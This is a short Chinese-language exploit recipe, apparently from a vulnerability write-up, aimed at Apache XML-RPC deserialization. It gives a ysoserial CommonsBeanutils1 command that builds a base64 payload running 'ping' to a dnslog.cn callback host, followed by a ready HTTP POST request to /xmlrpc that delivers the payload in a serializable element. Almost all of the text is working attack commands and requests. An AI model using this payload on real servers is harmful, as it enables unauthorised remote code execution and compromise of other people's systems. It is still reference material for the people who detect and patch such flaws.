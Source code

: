 使用`ysoserial`的`CommonsBeanutils1`来生成 Payload：

```plain
java -jar ysoserial.jar CommonsBeanutils1 "ping xxxx.dnslog.cn" | base64 | tr -d "\n"
```

替换到下面的`[base64-payload]`部分

```plain
POST /xmlrpc HTTP/1.1
Host: {{Hostname}}
Content-Type: application/xml

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
